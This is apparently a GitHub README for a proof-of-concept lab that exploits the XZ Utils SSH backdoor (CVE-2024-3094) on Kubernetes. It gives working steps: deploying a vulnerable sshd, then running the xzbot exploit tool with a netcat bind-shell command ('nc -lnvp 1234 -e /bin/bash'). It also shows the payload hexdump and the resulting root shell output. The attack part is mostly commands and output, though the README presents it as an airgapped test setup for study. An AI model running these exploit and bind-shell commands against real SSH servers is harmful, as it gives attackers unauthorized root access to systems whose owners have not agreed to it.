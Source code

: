 # xzwhy
```
 _  _  ____  _  _ 
( \/ )(_   )( \/ )
 )  (  / /_  \  / 
(_/\_)(____) (__) 

```

This project is a Kubernetes-friendly Proof of Concept (POC) for [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) affecting XZ Utils. See [this article](https://pentest-tools.com/blog/xz-utils-backdoor-cve-2024-3094) for an excellent walkthrough of the exploit's provenance and mechanics.

# WARNING 
⚠⚠⚠

Running any of the commands below may result in the deployment of a vulnerable application that is highly susceptible to attack. If you choose to follow these steps, it is recommended that you do so in an airgapped test environment. 

⚠⚠⚠


## Instructions


### 1: Roll out the vulnerable application
```
kubectl create -f xzwhy.yml
```

This will deploy a vulnerable SSH endpoint whose entrypoint is ```/bin/bash -c "env -i LANG=en_US.UTF-8 && unset TERM && unset LD_DEBUG && LD_LIBRARY_PATH=/CVE-2024-3094/ /usr/sbin/sshd -p 2222 -D"```


### 2: Obtain the vulnerable endpoint's URL
The vulnerable SSH endpoint exposes two ports via a load balancer: 2222 is listening for SSH connections and 1234 is a convenience to allow ingress on a bind shell port that we will use during the exploit
```
  type: LoadBalancer
  ports:
    - name: ssh
      protocol: TCP
      port: 2222
      targetPort: 2222
    - name: exploitshellingress
      protocol: TCP
      port: 1234
      targetPort: 1234
```


We can extract the deployed loadbalancer's URL using kubectl:
```
xzwhy_endpoint=`kubectl get services -o jsonpath='{.items[0].status.loadBalancer.ingress[0].hostname}' --namespace=xzwhy-ns --field-selector metadata.name=xzwhy-loadbalancer` && echo $xzwhy_endpoint
```


### 3: Initiate the attack by making a malicious SSH connection
Now we connect to the vulnerable server using the [teamnautilus/xzbot](https://hub.docker.com/r/teamnautilus/xzbot) utility:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

This will cause the vulnerable SSH server to execute a bind shell via ```nc -lnvp 1234 -e /bin/bash``` on our behalf. After running this command you should see something similar to:
```
Cloning into 'xzbot'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 14), reused 25 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 422.65 KiB | 8.99 MiB/s, done.
Resolving deltas: 100% (14/14), done.
total 12
drwxr-xr-x 3 root root 4096 Apr 17 22:37 ./
drwxr-xr-x 1 root root 4096 Apr 17 22:37 ../
drwxr-xr-x 4 root root 4096 Apr 17 22:37 xzbot/
/xzbot/xzbot /xzbot /go
go: downloading github.com/cloudflare/circl v1.3.7
go: downloading golang.org/x/crypto v0.21.0
go: downloading golang.org/x/sys v0.18.0
/xzbot /go
Usage of /xzbot/tmp/xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  a1 36 c4 cc b3 b2 4d b3  |.........6....M.|
00000190  99 11 52 a7 2c 38 d2 29  f9 5d 1a 06 63 36 1e 48  |..R.,8.).]..c6.H|
000001a0  9c 95 4e f1 77 41 07 92  1c a4 9f b0 b4 dc 93 c2  |..N.wA..........|
000001b0  66 03 3d fa 5c 8b 49 41  86 26 42 88 2b 9d 5b 4c  |f.=.\.IA.&B.+.[L|
000001c0  b8 a4 5e 9d 62 c3 51 0a  be ca 5d 8a 47 45 3a 1e  |..^.b.Q...].GE:.|
000001d0  99 1f c1 0e 97 b7 58 ec  51 45 5b 24 3f b4 69 6a  |......X.QE[$?.ij|
000001e0  68 45 7c 3b 3a d9 d7 0a  ad 09 04 d8 a1 b9 81 22  |hE|;:.........."|
000001f0  58 69 eb 07 ad 91 53 15  b2 1d bf 47 b9 48 a0 4e  |Xi....S....G.H.N|
00000200  8b 28 cd 82 4b fd 72 17  12 ce 7f e7 15 3c 9e fa  |.(..K.r......<..|
00000210  a7 e1 d6 e4 ec eb 66 34  5a 74 00 00 00 00 00 00  |......f4Zt......|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000240  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
```

### 4: Profit
Connect to the shell you spawned. Note the use of the xzwhy_endpoint variable:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

It isn't immediately obvious, but the command above should now be connected to the remote bind shell. You can test this by running various commands:
```
whoami
root
```

```
ls -liart
total 0
29377113 drwxr-xr-x   2 root root   6 Jun 11  2023 home
26259491 drwxr-xr-x   2 root root   6 Jun 11  2023 boot
24205734 drwxr-xr-x   1 root root  41 Mar 11 00:00 var
40912790 drwxr-xr-x   1 root root  30 Mar 11 00:00 usr
37758063 drwxr-xr-x   2 root root   6 Mar 11 00:00 srv
15748188 lrwxrwxrwx   1 root root   8 Mar 11 00:00 sbin -> usr/sbin
32522820 drwxr-xr-x   2 root root   6 Mar 11 00:00 opt
31465607 drwxr-xr-x   2 root root   6 Mar 11 00:00 mnt
30427284 drwxr-xr-x   2 root root   6 Mar 11 00:00 media
15748187 lrwxrwxrwx   1 root root   9 Mar 11 00:00 lib64 -> usr/lib64
15748186 lrwxrwxrwx   1 root root   7 Mar 11 00:00 lib -> usr/lib
15748184 lrwxrwxrwx   1 root root   7 Mar 11 00:00 bin -> usr/bin
12633381 drwx------   1 root root  18 Mar 30 12:22 root
       1 dr-xr-xr-x  13 root root   0 Apr 17 21:44 sys
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 ..
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 .
       1 dr-xr-xr-x 166 root root   0 Apr 17 22:26 proc
 3413214 drwxr-xr-x   1 root root  39 Apr 17 22:26 etc
       1 drwxr-xr-x   5 root root 360 Apr 17 22:26 dev
39855738 drwxrwxrwt   1 root root   6 Apr 17 22:26 tmp
14845582 drwxr-xr-x   1 root root  37 Apr 17 22:26 run

```


### 5: Cleanup
```
kubectl delete -f xzwhy.yml
```


# Credits

* [teamnautilus](https://hub.docker.com/r/teamnautilus/xzbot) created a [server vulnerable to the exploit](https://hub.docker.com/r/teamnautilus/xzbot)
* [amlweems](https://github.com/amlweems/xzbot.git) published an automated tool for exploiting vulnerable SSH endpoints
* [patorjk](http://patorjk.com/) created an excellent [text-to-ascii art generator](https://patorjk.com/software/taag/#p)
